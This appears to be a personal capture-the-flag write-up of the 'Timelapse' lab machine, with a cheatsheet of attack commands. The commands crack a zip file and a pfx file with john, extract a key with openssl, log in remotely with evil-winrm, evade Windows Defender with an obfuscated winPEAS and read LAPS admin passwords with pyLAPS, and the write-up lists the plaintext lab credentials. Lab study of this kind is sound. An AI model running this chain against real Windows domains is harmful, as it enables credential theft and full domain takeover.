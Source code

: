 # Timelapse \[Easy]

## Report

A zip file of winrm is retrieved from public available SMB share which when cracked using john gives a pfx file that is further cracked to give a certificate and private key assumably for the user legaccy which is mentioned. Another directory mentioning LAPS management and usage is also visible.

Port 5986 means evil-winrm should be run with the -S flag (SSL over HTTP)

Windows Defender blocks normal exe of winPEAS so run the obfuscated version and expose creds for user svc\_deploy

svc\_deploy is part of the group "LAPS\_READERS" which can expose the LAPS password of the DC. Use this to login is Administrator

## Cheatsheet

```
#ANYTHING THAT REQUIRES A PASSPHRASE -> ${FILE_FORMAT}tojohn
zip2john winrm_backup.zip > winrm_backup_zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup_zip.hash 

openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out yourkey_enc.pem
openssl rsa -in yourkey_enc.pem -out yourkey_dec.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt

#For user legaccy
evil-winrm -i timelapse.htb -S -c certificate.crt -k yourkey_dec.pem

winPEASx64_ofs.exe reveal powershell history
bloodhound
other users: trx, payload and svc_deploy

C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
evil-winrm -i timelapse.htb -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
python3 pyLAPS.py --action get -d "timelapse.htb" -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV'
DC01$                : ++9aAz4]0l8gipl@6Be.1i$$
evil-winrm -i timelapse.htb -S -u Administrator -p '++9aAz4]0l8gipl@6Be.1i$$'
```

## Loot

### Creds

legacy: public cert and private key from pfx file

svc\_deploy:E3R$Q62^12p7PLlC%KWaxuaV

Administrator:++9aAz4]0l8gipl@6Be.1i\$$

### Proof

How does LAPS work again exactly?

One LAPS manages diff passwords for all admins in domain, but what if the LAPS Manager gets compromised?

It reveals the password of the admin of that DC and system

svc\_deploy was part of a group that could read LAPS creds, BloodHound confirmed it but we can do our manual recon as well, from there pyLAPS.py did the rest

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Learning how to use Bloodhound better has been a gamechanger so far
